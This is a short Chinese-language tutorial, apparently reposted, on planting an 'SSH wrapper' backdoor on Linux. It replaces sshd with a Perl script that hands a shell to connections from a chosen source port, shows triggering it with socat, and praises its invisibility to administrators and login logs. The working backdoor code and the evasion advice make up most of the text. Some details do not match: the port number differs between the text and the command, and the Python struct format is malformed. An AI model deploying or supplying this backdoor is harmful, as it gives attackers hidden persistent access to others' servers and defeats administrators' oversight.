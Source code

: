 # SSH wrapper

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/2.html](http://book.iwonder.run/安全技术/Linux 后门/2.html)

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh 中。

```
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑 sshd 内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF 是 19526 的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart 
```

在本机执行

```
socat STDIO TCP4:127.0.0.1:22,sourceport=19265 
```

![image](img/2f7d212c9107de2f0b3d7cc3d72ace7c.png)

可以看到我利用 socat 限制了本地端口 19526 访问 server 的 22 端口反回一个 sh 窗。

修改端口可以修改..LF

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer) 
```

![image](img/4e21654db715fcf2e8bb318d429ed6e3.png)

优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last 也查不到登陆。

2、在针对边界设备出网，内网 linux 服务器未出网的情况下，留这个后门可以随时管理内网 linux 服务器，还不会留下文件和恶意网络连接记录。

